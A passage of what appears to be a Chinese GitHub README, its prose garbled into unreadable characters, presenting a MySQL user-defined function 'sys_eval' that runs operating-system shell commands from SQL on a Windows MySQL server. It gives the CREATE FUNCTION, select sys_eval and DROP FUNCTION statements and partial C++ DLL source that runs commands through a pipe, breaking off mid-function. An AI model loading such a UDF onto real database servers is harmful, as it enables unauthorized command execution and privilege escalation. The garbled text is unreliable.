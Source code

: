 ```
	}
}
```
- ����shell

����shell��д���ԣ���û�л��Ե�shellִ��������һ����ԭ���
����ԭ���Ǵ���һ���ܵ���������������ܵ���ȡ������رչܵ���

ʹ�÷�ʽ��

```
# ����sys_eval����
CREATE FUNCTION sys_eval RETURNS string SONAME "mysql_udf_c++.dll";
# ִ��shell�������������·��Ĭ��·����mysql��dataĿ¼�¡����磺"D:\phpStudy\MySQL\data\helllo.txt"
select sys_eval("echo hello>>helllo.txt");
# ע��cmshell�������
Drop function sys_eval;
```

CPPԴ�����£�
```
#include <winsock.h>
#include <mysql.h>  


#ifndef UNICODE
#define UNICODE
#endif
#pragma comment(lib, "netapi32.lib")

#include <stdio.h>
#include <windows.h> 
#include <lm.h>


//--------
extern "C" __declspec(dllexport)my_bool sys_eval_init(UDF_INIT *initid, 
	UDF_ARGS *args, 
	char *message)
{   //��������
	unsigned int i = 0;
	if (args->arg_count == 1
		&& args->arg_type[i] == STRING_RESULT) {
		return 0;
	}
	else {
		strcpy(
			message
			, "Expected exactly one string type parameter"
			);
		return 1;
	}
}
extern "C" __declspec(dllexport)char*  sys_eval(UDF_INIT *initid
	, UDF_ARGS *args
	, char* result
	, unsigned long* length
	, char *is_null
	, char *error)
{
	FILE *pipe;
	char buff[1024];
	unsigned long outlen, linelen;

    // �����ڴ�
```